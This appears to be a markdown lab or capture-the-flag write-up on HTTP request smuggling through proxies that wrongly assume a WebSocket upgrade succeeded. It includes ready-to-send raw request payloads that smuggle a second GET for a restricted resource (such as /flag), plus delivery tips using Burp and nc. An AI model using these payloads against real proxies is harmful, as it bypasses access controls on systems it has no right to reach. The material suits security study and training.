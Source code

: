 # HTTP Request Smuggling through broken WebSocket tunnels

### To smuggle requests through a vulnerable proxy, we can create a malformed request such that the proxy thinks a WebSocket upgrade is performed, but the backend server doesn't really upgrade the connection. This will force the proxy into establishing a tunnel between client and server that will go unchecked since it assumes it is now a WebSocket connection, but the backend will still expect HTTP traffic.

### One way to force this is to send an upgrade request with an invalid Sec-Websocket-Version header. This header is used to specify the version of the WebSocket protocol to use and will normally take the value of 13 in most current WebSocket implementations. If the server supports the requested version, it should issue a 101 Switching Protocols response and upgrade the connection.

### But we aren't interested in upgrading the connection. If we send an unsupported value for the Sec-Websocket-Version header, the server will send a 426 Upgrade Required response to indicate the upgrade was unsuccessful

### Some proxies may assume that the upgrade is always completed, regardless of the server response. This can be abused to smuggle HTTP requests once again by performing the following steps:

#### 1) The client sends a WebSocket upgrade request with an invalid version number.

#### 2) The proxy forwards the request to the backend server.

#### 3) The backend server responds with 426 Upgrade Required. The connection doesn't upgrade, so the backend remains using HTTP instead of switching to a WebSocket connection.

#### 4) The proxy doesn't check the server response and assumes the upgrade was successful. Any further communications will be tunnelled since the proxy believes they are part of an upgraded WebSocket connection.

### It is important to note that this technique won't allow us to poison other users' backend connections. We will be limited to tunnelling requests through the proxy only, so we can bypass any restrictions imposed by the frontend proxy by using this trick.

## Steps to abuse:

#### 1) Find a resource that thr proxy denies access to.

#### 2) Burpsuite or OWASP ZAP

#### 3) Find the WebSocket endpoint (if it speaks WebSocket)

## Request: 

GET /socket HTTP/1.1
Host: IP_ADDRESS:PORT
Sec-WebSocket-Version: 777
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

#### 4) Send to repeater

#### 5) Disable Update Content-Length to not break the attack

#### 6) Smuggle another HTTP request below the one we just created (The resource we want to access)

## Example: 

GET /socket HTTP/1.1
Host: IP_ADDRESS:PORT
Sec-WebSocket-Version: 777
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==



GET /RESOURCE HTTP/1.1
Host: IP_ADDRESS:PORT


## TIP: DON'T FORGET TO PRESS ENTER TWICE (ADD 2 NEWLINES UNDER THE PAYLOAD) AFTER THE SMUGGLED HTTP REQUEST TO MAKE THIS ATTACK WORK

#### 7) Send the request to access the restricted content

## What if the app doesn't speak WebSocket?

### Note that some proxies will not even require the existence of a WebSocket endpoint for this technique to work. All we need is to fool the proxy into believing we are establishing a connection to a WebSocket, even if this isn't true. Look at what happens if you try to send the following payload (be sure to add two newlines after the payload in Burp):

GET / HTTP/1.1
Host: 10.10.55.67:8001
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.55.67:8001


### This payload should still work, even though the first request is directed to /, which is not a WebSocket-enabled endpoint. The proxy simply doesn't check the response from the upgrade, so you can use any payload that looks close enough to a WebSocket upgrade.

## NOTE: This payload will randomly fail when using Burp. You can either retry the payload a couple of times until it works, or deliver it by pasting it into a terminal running nc 10.10.55.67 8001, where it will work every time (don't forget the trailing newlines).

